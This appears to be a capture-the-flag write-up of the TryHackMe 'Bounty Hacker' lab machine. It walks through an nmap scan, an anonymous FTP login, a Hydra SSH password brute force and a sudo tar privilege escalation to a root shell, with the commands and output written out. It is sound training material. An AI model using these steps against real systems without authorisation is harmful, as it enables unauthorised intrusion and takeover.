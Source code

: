 # [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

`Machine's IP - 10.10.113.185`

# Reconnaissance and Discovery
So, the first thing was to start out with a simple nmap scan and outputting the results to a log file.

`nmap -sS -sC -sV 10.10.113.185 -Pn > nmap-bountyhacker.log`

# Analyzing Information and Risks
I certainly noticed that FTP (File Transfer Protocol) allowed Anonymous login, so I went to check that out. The website didn't have anything important.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-11-16 20:52 Central Standard Time (Mexico)
Nmap scan report for 10.10.136.125
Host is up (0.49s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07 20:41 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07 20:47 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.20.112
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.71 seconds
```

I logged into FTP `ftp 10.10.113.185` with user `Anonymous` and, bingo! I'm in. Listing the contents, I got this:

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
locks.txt
task.txt
226 Directory send OK.
ftp: 24 bytes received in 0.00Seconds 24.00Kbytes/sec.
```

Using `mget *` I downloaded both files, and in my local directory I saw the content.\
Question 1 - Who wrote the task list? - Lin \
Question 2 - What service can you bruteforce with the text file found? - SSH

The next thing was getting Hydra ready. I passed the `-l lin` for user and `-P locks.txt` for the list and .. 

`[22][ssh] host: 10.10.113.185   login: lin   password: ******************`

Houston, we're in. \

Now that I had the SSH login credentials, I decided to look around. So, I logged in `ssh lin@10.10.113.185`. Inside, I listed the contents
of the current directory and found the first flag.\
Question 4 - user.txt


```
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
******************
```

So, being here I could've gone with [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) but since the password was already cracked I listed the users permissions with `sudo -l`.
I noted the following:

```
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

With this, I decided to go to [GTFOBins](https://gtfobins.github.io/) and searched for tar. Obviously I went with the sudo option:

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`

Aaaanddd, we have root. \

```bash
root@bountyhacker:~/Desktop# whoami
root
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls
root.txt
root@bountyhacker:/root# cat root.txt
******************
```

## License
[MIT](https://choosealicense.com/licenses/mit/)
